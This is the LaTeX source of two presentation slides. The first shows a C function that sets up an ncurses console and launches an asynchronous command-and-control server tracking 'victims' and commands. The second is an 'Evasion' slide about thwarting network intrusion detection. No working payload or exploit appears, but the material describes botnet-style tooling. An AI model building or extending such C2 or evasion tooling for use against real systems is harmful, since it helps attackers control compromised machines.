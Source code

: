 \documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}[fragile]{}
  \frametitle{NCurses}
  \framesubtitle{Create The main window!}
  \begin{center}
    \begin{tcolorbox}[title=net.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{verbatim}
        WINDOW *ncurses_wmain_create(int port,
                                     net_client_beacon_t **p_victims,
                                     net_server_beacon_t **p_commands){
          WINDOW *win_main;                                                   // Main Window
          win_main = initscr();                                               // Initalize Main Window
          if (start_color() == ERR || !has_colors() || !can_change_color()){  // Check for Color Supported Terminal
            fprintf(stderr, "%s\n", strerror(errno));
            return false;
          }
          if (net_server_async(port, p_victims, p_commands) == false){        // Startup CnC Server ASYNC
            fprintf(stderr, "[x] failed to initalize cnc server\n");
            return false;
          }
          noecho();
          curs_set(0);                                                        // Position the Cursor
          init_pair(NCURSES_WMAIN_COLOR, COLOR_GREEN, COLOR_BLACK);           // Set Color Pair
          wbkgd(win_main, COLOR_PAIR(NCURSES_WMAIN_COLOR));                   // Set Window Background
          return win_main;                                                    // Return the Main Window
        }
      \end{verbatim}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Evasion}
  \framesubtitle{How can we thwart most NIDS?}
  \begin{center}
    \begin{figure}
      \includegraphics[width=6cm,keepaspectratio]{bypass_firewall}
      \caption{Bill Gates}
    \end{figure}
  \end{center}
\end{frame}
\end{document}
